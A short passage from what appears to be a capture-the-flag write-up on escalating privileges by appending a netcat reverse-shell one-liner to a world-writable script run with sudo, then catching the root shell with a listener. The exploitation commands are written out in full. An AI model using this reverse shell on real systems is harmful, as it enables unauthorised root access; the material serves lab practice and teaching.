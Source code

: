 # Privilege escalation

As `monitor.sh` is world-writable, we can append a reverse shell one-liner to the end of `monitor.sh` file and, when we run it, we will have a reverse shell as root.

We will append a bash one-liner at the end of `monitor.sh`:

```
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1235 >/tmp/f' | tee -a monitor.sh
```

We open a new necat listener on our host (attacker):

```
$ nc -lvnp 1235
```

And we execute the `monitor.sh` script with sudo in the target (victim) host:

```
$ sudo /home/nibbler/personal/stuff/monitor.sh
```

Now, we are root and we can get the root flag stored in `/root/root.txt`

*Enjoy! ;)*
